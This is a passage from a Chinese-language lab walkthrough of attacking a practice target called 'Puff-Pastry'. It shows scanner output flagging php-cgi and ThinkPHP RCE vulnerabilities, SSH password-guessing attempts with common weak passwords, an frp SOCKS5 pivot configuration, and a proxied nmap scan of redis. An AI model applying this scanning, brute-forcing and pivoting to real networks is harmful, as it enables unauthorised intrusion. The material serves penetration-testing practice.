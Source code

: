 ```bash
[*] WebTitle http://10.85.101.3        code:200 len:19411  title:phpMyAdmin
[+] InfoScan http://10.85.101.3        [phpMyAdmin]
[+] PocScan http://10.85.101.3 poc-yaml-php-cgi-cve-2012-1823
[+] PocScan http://10.85.101.4 poc-yaml-php-cgi-cve-2012-1823
[+] PocScan http://10.85.101.4 poc-yaml-thinkphp5-controller-rce
已完成 6/8 [-] redis 10.85.101.2:6379 sysadmin <nil>
已完成 7/8 [-] ssh 10.85.101.1:22 root !QAZ2wsx ssh: handshake failed: ssh: unable to authenticate, attempted methods [none password], no supported methods remain
已完成 7/8 [-] ssh 10.85.101.1:22 root 1q2w3e ssh: handshake failed: ssh: unable to authenticate, attempted methods [none password], no supported methods remain

已完成 7/8 [-] ssh 10.85.101.1:22 admin admin123 ssh: handshake failed: ssh: unable to authenticate, attempted methods [none password], no supported methods remain
已完成 7/8 [-] ssh 10.85.101.1:22 admin 123456~a ssh: handshake failed: ssh: unable to authenticate, attempted methods [none password], no supported methods remain
已完成 7/8 [-] ssh 10.85.101.1:22 admin Aa12345. ssh: handshake failed: ssh: unable to authenticate, attempted methods [none password], no supported methods remain
已完成 8/8
[*] 扫描结束,耗时: 7m48.941223927s
```
### 配置socks代理
我这为啥又出现了一个多的ip....
```bash
10.85.101.4 thinkphp
10.85.101.3 phpmyadmin
10.85.101.2 redis
10.85.101.1 ???  是运行docker的parrot???
```
现在的环境为
![](https://img.l1uyun.one/Puff-Pastry打靶记录_image_10.png)
这里就直接配置个socks代理吧
```toml
serverAddr = "192.168.122.102"
serverPort = 7000

[[proxies]]
name = "kali2tp"
type = "tcp"
remotePort = 9998
[proxies.plugin]
type = "socks5"
```

配完之后
![](https://img.l1uyun.one/Puff-Pastry打靶记录_image_11.png)
配置一下proxychains
![](https://img.l1uyun.one/Puff-Pastry打靶记录_image_12.png)
## redis
使用proxychains来实现使用代理
```bash
☁  workspace  sudo proxychains4  nmap -sT -Pn 10.85.101.2 -p6379 --script="*redis*"
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-19 11:01 CST
[proxychains] Strict chain  ...  192.168.122.102:9998  ...  10.85.101.2:6379  ...  OK
Nmap scan report for 10.85.101.2
Host is up (0.0028s latency).

PORT     STATE SERVICE
6379/tcp open  redis
```